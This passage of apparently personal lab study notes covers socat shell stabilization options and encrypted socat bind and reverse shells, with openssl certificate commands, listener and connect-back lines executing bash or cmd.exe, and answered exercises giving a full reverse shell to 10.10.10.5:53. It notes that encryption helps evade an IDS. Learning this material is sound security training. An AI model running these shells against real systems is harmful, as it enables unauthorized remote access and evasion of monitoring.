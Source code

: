 - **pty**, allocates a pseudo terminal on the target -- part of the stabilization process
- **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)  
- **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- **setsid**, creates the process in a new session
- **sane**, stabilises the terminal, attempting to "normalise" it.

### socat encrypted shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

```
# generate a certificate for encrypted shell

openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

# this creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. info can be blank or random

cat shell.key shell.crt > shell.pem

# setup rev shell listener (no validation, cert must be on listening machine)

socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -

socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash

# target
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

# attacker
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -

```


```
What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0

If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```


## common shell payloads 

